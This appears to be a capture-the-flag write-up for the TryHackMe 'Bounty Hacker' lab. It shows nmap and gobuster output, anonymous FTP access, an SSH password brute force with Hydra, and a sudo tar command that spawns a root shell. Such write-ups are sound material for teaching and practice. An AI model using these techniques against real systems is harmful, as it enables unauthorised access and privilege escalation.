

Hello everyone,

Today we are going to solve Bounty hacker room from tryhackme. we will learn about hydra,FTP enumration and how to get root shell with tar.


<!--truncate-->

--> default page


---

## Nmap results

```bash
PORT STATE SERVICE VERSION
-->21/tcp open ftp vsftpd 3.0.3
| ftp-anon: `Anonymous FTP login allowed` (FTP code 230)
| -rw-rw-r-- 1 ftp ftp 418 Jun 07 2020 locks.txt
|_-rw-rw-r-- 1 ftp ftp 68 Jun 07 2020 task.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.9.3.179
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|\_End of status
-->22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 0)
| ssh-hostkey:
| 2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| 256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_ 256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
-->80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|\_http-server-header: Apache/2.4.18 (Ubuntu)
|\_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## gobuster results

```bash
[10:21:10] 301 - 315B - /images -> http://10.10.221.156/images/ > [10:21:10] 200 - 969B - /index.html
[10:21:23] 403 - 278B - /server-status
```

---

## FTP

--> so Let's try to login as ftp because anonymous login is allowed.
--> and we got 2 files `task.txt and locks.txt` so Let's try to read that file and Let's see what we get !


--> i got this in locks.txt



--> i think it's some type of wordlist so Let's read another file

> 1.) Protect Vicious.
> 2.) Plan for Red Eye pickup on the moon.
> -lin

---

## brute force

--> I tried to do brute force with user lin and i found the password


==> Let's try to login with SSH

--> and i got user.txt in `/Desktop`


--> So Let's try to escalate our privileges !

---

## Privesc

--> i done `sudo -l` and found that we can run `/bin/tar` as a root


--> and i got root with this command

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


